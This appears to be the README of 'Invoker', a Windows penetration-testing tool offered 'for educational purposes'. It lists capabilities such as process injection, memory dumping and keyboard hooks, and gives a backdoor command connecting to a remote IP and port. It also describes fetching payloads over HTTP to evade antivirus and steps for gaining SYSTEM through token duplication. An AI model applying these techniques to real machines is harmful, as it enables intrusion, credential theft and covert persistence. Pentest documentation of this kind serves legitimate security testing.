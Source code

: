 # Invoker

Penetration testing utility.

The goal is to use this tool when access to some Windows OS features through GUI is restricted.

Some features require administrative privileges.

Capabilities:

* invoke the Command Prompt and PowerShell,
* download a file,
* add a registry key,
* schedule a task,
* Windows Management Instrumentation (WMI),
* connect to a remote host,
* terminate a running process,
* run a new process,
* dump a process memory,
* inject a bytecode into a running process,
* inject a DLL into a running process,
* list DLLs of a running process,
* install a hook procedure,
* enable access token privileges,
* duplicate an access token of a running process,
* list unquoted service paths and restart a running service,
* replace Sticky Keys.

Built with Dev-C++ IDE v5.11 (64-bit), compiled with TDM-GCC v4.9.2 (32-bit and 64-bit) and tested on Windows 10 Enterprise OS (64-bit). Download Dev-C++ from [here](https://sourceforge.net/projects/orwelldevcpp/files/Portable%20Releases/).

**NEW: Visual Studio Community 2019 v16.7.6 projects added.**

Made for educational purposes. I hope it will help!

Future plans:

* Direct System Calls,
* DLL Proxying,
* COM Hijacking.

## Invoker Library

Check all the capabilities [here](https://github.com/ivan-sincek/invoker/blob/master/src/Dev-C%2B%2B/Invoker/lib/invoker/invoker.cpp). Feel free to use the library.

## How to Run (!!)

Run [\\exec\\Invoker_x86.exe](https://github.com/ivan-sincek/invoker/tree/master/exec) (32-bit) or [\\exec\\Invoker_x64.exe](https://github.com/ivan-sincek/invoker/tree/master/exec) (64-bit).

To automate the backdoor while setting up a persistence, you can run the following command:

```fundamental
Invoker_x64.exe 192.168.8.5 9000
```

32-bit Invoker can only:

* dump the memory of a 32-bit process,
* inject a 32-bit bytecode into a 32-bit process,
* inject a 32-bit DLL into a 32-bit process,
* list DLLs of a 32-bit process,
* install a hook procedure from a 32-bit DLL.

64-bit Invoker can only:

* dump the memory of a 32-bit process,
* dump the memory of a 64-bit process,
* inject a 32-bit bytecode into a 32-bit process,
* inject a 64-bit bytecode into a 64-bit process,
* ~~inject a 32-bit DLL into a 32-bit process,~~
* inject a 64-bit DLL into a 64-bit process,
* ~~list DLLs of a 32-bit process,~~
* list DLLs of a 64-bit process.
* ~~install a hook procedure from a 32-bit DLL,~~
* install a hook procedure from a 64-bit DLL.

## Bytecode Injection

Elevate privileges by injecting bytecode into a higher-privileged process.

This tool can parse an HTTP response and extract the payload from a custom element, e.g. from `<invoker>payload</invoker>` where `payload` is a binary code/file encoded in Base64.

Check the example at [pastebin.com/raw/xf9Trt0d](https://pastebin.com/raw/xf9Trt0d).

This might be useful if antivirus is constantly deleting your local payloads.

Also, check an additional example at [pastebin.com/raw/iW17rCxH](https://pastebin.com/raw/iW17rCxH).

Bytecode provided will most certainly not work for you.

**Pastebin no longer works because it now redirects HTTP to HTTPS.**

Use [ngrok](https://ngrok.com) to give your local web server a public address.

Too see if a process is 32-bit or 64-bit open up Task Manager -> click on `More details` -> go to `Details` tab -> right click on any of the columns -> click on `Select columns` -> check the `Platform` checkbox.

Additionally, to see if a process is running with administrative privileges check the `Elevated` checkbox.

## Generate a Reverse Shell Payload

Find out how to generate a reverse shell payload from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#generate-a-reverse-shell-payload-for-windows-os).

## PowerShell Scripts

Check all the PowerShell scripts used in the main C++ program [here](https://github.com/ivan-sincek/invoker/tree/master/ps).

## Make a DLL With a Hook Procedure

Find out how to make a DLL with a hook procedure [here](https://github.com/ivan-sincek/invoker/blob/master/src/Dev-C%2B%2B/InvokerHook/dllmain.cpp).

The hook procedure will invoke a message box on each window close.

Also, check out a keyboard hook procedure [here](https://github.com/ivan-sincek/invoker/blob/master/src/Dev-C%2B%2B/KeyboardHook/dllmain.cpp).

**Make sure to remove all the created artifacts after you are done testing, e.g. remove `keylogger.log`.**

## Get the LocalSystem Account (NT AUTHORITY\SYSTEM)

Run the Invoker as administrator.

Enable all access token privileges.

Duplicate the access token from e.g. Windows Logon Application (winlogon.exe) and run a new instance of Invoker.

Within the new Invoker instance, open the Command Prompt and run `whoami`, you should now see `nt authority\system`.

Enable all access token privileges once again.

Close the old Invoker instance.

P.S. You get more access token privileges from Local Security Authority Subsystem Service (lsass.exe).

## Images

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/invoker.jpg" alt="Invoker"></p>

<p align="center">Figure 1 - Invoker</p>

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/registry.jpg" alt="Add/Edit Registry Key"></p>

<p align="center">Figure 2 - Add/Edit Registry Key</p>

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/bytecode_injection.jpg" alt="Bytecode Injection"></p>

<p align="center">Figure 3 - Bytecode Injection</p>

<p align="center"><img src="https://github.com/ivan-sincek/invoker/blob/master/img/elevated_privileges.jpg" alt="Elevated Privileges"></p>

<p align="center">Figure 4 - Elevated Privileges</p>
